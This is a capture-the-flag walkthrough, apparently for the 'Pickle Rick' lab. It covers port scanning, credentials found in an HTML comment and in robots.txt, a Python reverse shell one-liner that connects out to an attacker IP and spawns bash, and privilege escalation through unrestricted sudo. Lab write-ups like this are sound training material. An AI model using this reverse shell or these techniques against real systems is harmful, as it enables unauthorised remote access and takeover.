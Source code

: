 # Pickle Rick

# 25 Eylul 2021

# Nmap 

22/tcp
80/tcp

# Web Directories

 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

robots.txt >

Wubbalubbadubdub

# Login
Completed
# Python Reverse Shell 

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.49.75",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

# Bash Shell Discovery

www-data@ip-10-10-20-66:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt > ` mr. meeseek hair  `
assets 
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

/home/rick > `1 jerry tear`

# Escalating Privileges

www-data@ip-10-10-20-66:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-20-66.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-20-66.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

# Root

cd /root/
ls

3rd.txt
snap

cat 3rd.txt

3rd ingredients: `fleeb juice`

# All Ingredients

# mr. meseek hair

# fleeb juice

# 1 jerry tear




